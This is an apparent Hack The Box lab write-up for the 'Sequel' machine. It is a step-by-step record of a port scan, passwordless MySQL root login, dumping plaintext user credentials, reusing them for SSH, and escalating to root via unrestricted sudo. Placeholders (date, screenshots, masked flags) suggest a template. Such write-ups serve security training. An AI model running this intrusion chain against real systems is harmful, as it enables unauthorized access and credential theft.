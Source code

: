# Hack The Box - Sequel

## Overview
- **IP Address:** 10.129.110.10
- **Difficulty:** Easy
- **Category:** Database / MySQL Exploitation
- **Completion Date:** [Date]

---

## 1. Reconnaissance

### Nmap Scan
Performed an initial scan to identify open ports:
```bash
nmap -sC -sV -oN nmap_initial.txt 10.129.110.10
```

**Scan Results:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
3306/tcp open  mysql   MySQL 8.0.29-0ubuntu0.20.04.3
```

[Add screenshot: `screenshots/Nmap_scan.png`]

---

## 2. Enumeration

### Connecting to MySQL
Tested for default/empty credentials:
```bash
mysql -h 10.129.110.10 -u root
```
✅ Successfully connected without a password.

List databases:
```sql
SHOW DATABASES;
```
**Output:**
```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| htb               |
| mysql             |
+--------------------+
```

Switch to `htb` database and check tables:
```sql
USE htb;
SHOW TABLES;
```
**Output:**
```
+-------+
| Table |
+-------+
| users |
+-------+
```

Dump the `users` table:
```sql
SELECT * FROM users;
```
**Output:**
```
+----+-------------+---------------+
| id | username    | password      |
+----+-------------+---------------+
| 1  | sequel_user | sequel_pass   |
+----+-------------+---------------+
```

[Add screenshot: `screenshots/mysql-creds.png`]

---

## 3. Exploitation

Login via SSH using discovered credentials:
```bash
ssh sequel_user@10.129.110.10
# Password: sequel_pass
```

✅ Access granted.

[Add screenshot: `screenshots/ssh-access.png`]

---

## 4. Privilege Escalation

Check sudo permissions:
```bash
sudo -l
```

**Output:**
```
User sequel_user may run the following commands on sequel:
    (ALL : ALL) ALL
```

Escalate to root:
```bash
sudo su
whoami
# root
```

[Add screenshot: `screenshots/root.png`]

---

## 5. Loot

- **User Flag:** `HTB{xxxxxxxxxxxxxxxxxxxx}`
- **Root Flag:** `HTB{xxxxxxxxxxxxxxxxxxxx}`

---

## 6. Lessons Learned
- Exposed MySQL services with default credentials are dangerous.  
- Always enumerate database users and permissions.  
- Misconfigured sudo permissions can lead to full root access.

---
